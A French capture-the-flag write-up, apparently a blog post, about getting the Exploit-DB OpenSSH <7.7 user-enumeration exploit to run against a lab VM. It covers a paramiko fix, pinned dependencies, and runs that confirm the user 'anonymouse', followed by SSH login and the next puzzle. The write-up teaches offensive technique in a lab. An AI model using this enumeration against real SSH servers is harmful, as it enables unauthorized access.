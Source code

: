 Il s'avère que les faire fonctionner n'est ni beau ni agréable. J'ai quand même réussit à faire fonctionner celui-ci qui permet de tester un utilisateur :

[OpenSSH &lt; 7.7 - User Enumeration (2) - Linux remote Exploit](https://www.exploit-db.com/exploits/45939)

Il aura fallu renommer les références à `_handler_table`  vers `_client_handler_table` pour corriger un changement lié à `paramiko`.

Je m'en suis aussi sorti avec la liste de versions suivante des dépendances :

```
bcrypt==3.1.7
cffi==1.15.1
cryptography==3.3.2
enum34==1.1.10
ipaddress==1.0.23
paramiko==2.12.0
pycparser==2.21
PyNaCl==1.4.0
six==1.16.0
```

Il fallait alors brute forcer la liste des utilisateurs, mais pas avec une wordlist adaptée : il fallait utiliser `rockyou` qui a plus d'intérêt pour casser des mots de passe.

Au vu du temps annoncé j'ai laissé tomber. Le compte à découvrir était `anonymouse` qu'on ne trouve effectivement pas dans les wordlists de noms d'utilisateurs.

```console
$ python 45939.py 192.168.242.133 nawak
/tmp/pyenv2/myvenv/lib/python2.7/site-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
[-] nawak is an invalid username
$ python 45939.py 192.168.242.133 anonymouse
/tmp/pyenv2/myvenv/lib/python2.7/site-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
[+] anonymouse is a valid username
```

## lil bro I'm gonna read your packets lol

```console
$ ssh anonymouse@192.168.242.133
anonymouse@192.168.242.133's password: 
[anonymouse@localhost ~]$ id
uid=1002(anonymouse) gid=1002(anonymouse) groupes=1002(anonymouse) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[anonymouse@localhost ~]$ ls -a
.  ..  .bash_logout  .bash_profile  .bashrc  .cache  .config  ICMPReq.PNG  .mozilla  readme.txt
[anonymouse@localhost ~]$ cat readme.txt
Hello dude , you doing good , i just need to insure that your network basics is good enough to get to the next leve 
so i prepared a simple challange for you .
You have this image which contains the hex dump of packet include ICMP , you have to get the Source IP(with normal ip format)  , 
type of ICMP(must be a number) and Destination Mac Address (in this format XX:XX:XX:XX:XX:XX) , then put the values in this format "DstMAC:TypeICMP:SrcIP" separated by ":" 
, finally you have to calculate the md5 hash for the this will be a web directory for the next step 
Your result must starts with (a8f.........)
```
